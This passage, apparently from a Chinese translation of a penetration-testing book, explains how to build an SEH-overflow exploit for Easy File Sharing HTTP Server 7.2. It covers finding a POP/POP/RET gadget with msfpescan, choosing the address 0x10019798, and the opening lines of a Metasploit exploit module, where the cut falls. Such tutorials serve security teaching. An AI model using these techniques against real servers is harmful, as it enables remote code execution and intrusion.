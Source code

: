 我们可以使用`-s`开关通过`msfpescan`轻松找到 POP/POP/RET 指令序列。我们在`ImageLoad.dll`文件中使用它，如下所示：

![](img/5ad5e795-2155-47f0-b223-6c82bd0e9d4d.png)

让我们使用一个安全地址，消除任何可能导致 HTTP 协议问题的地址，例如连续重复零，如下所示：

![](img/71da2ab5-e7dc-4092-9ce3-df3e361b7481.png)

我们将使用`0x10019798`作为 POP/POP/RET 地址。我们现在有两个用于编写漏洞的关键组件，它们是偏移量和要加载到 catch 块的地址，catch 块是 POP/POP/RET 指令的地址。我们只需要短跳转指令，它将被加载到下一条 SEH 记录的地址中，这将帮助我们跳转到外壳代码。Metasploit 库将使用内置函数为我们提供跳转指令。

# 编写 Metasploit SEH 漏洞利用模块

现在我们已经有了利用目标应用的所有重要数据，让我们继续在 Metasploit 中创建一个利用模块，如下所示：

```
class MetasploitModule < Msf::Exploit::Remote 

  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 
  include Msf::Exploit::Seh 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'Easy File Sharing HTTP Server 7.2 SEH Overflow', 
      'Description'    => %q{ 
        This module demonstrate SEH based overflow example 
      }, 
      'Author'         => 'Nipun', 
      'License'        => MSF_LICENSE, 
      'Privileged'     => true, 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'thread', 
     'RPORT' => 80, 
```